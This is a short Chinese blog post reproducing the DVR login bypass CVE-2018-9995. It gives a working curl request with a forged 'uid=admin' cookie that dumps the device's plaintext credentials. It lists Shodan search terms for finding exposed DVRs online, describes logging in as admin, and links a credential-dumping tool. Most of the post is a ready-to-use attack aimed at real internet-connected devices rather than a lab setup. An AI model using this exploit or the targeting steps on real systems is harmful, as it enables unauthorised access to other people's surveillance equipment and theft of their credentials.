 ```yaml
---
title: DVR登录绕过漏洞(CVE-2018-9995)
categories:
- CVE-2018-9995
tags:
- 漏洞
updated: 2018-05-22
---
```


前两天的时候网上爆出了关于DVR登录绕过的漏洞（CVE-2018-9995），身边的有个大佬玩的high的不得了，今天有时间来复现一下看下效果。



网上复现的文章也挺多的，原理就是这些DVR的cookie都好简单,”uid=admin”,然后凭证都是明文…（作大死）

利用代码：

```
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

网上说使用shodan,zoomeye,fofa,google等搜索引擎,可以查到;

不推荐zoomeye（钟馗之眼），因为made in china，里面中国的ip全部隐藏了。

推荐使用shodan：

搜索关键字:”/longin.rsp”或者”GNU rsp/1.0”,如图:

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_01.png" />

条件:存在device.rsp页面并可访问（一定要可以访问的）

使用curl命令:

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_02.png" />

登录账号：admin        密码为空

直接登录即可（使用IE浏览器）：

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_03.png" />



还有一个阿根廷的大牛写了个py工具,直接获取明文密码

工具发布在了github上

```
:<https://github.com/ezelf/CVE-2018-9995_dvr_credentials>
```

最后共勉一句话：

《善恶的彼岸》146小节，原文
Wer mit Ungeheuern kämpft, mag zusehn, dass er nicht dabei zum Ungeheuer wird. Und wenn du lange in einen Abgrund blickst, blickt der Abgrund auch in dich hinein.

 -------当你在凝望深渊的时候,深渊也在凝望你

 

 

 

 

 

### 







​

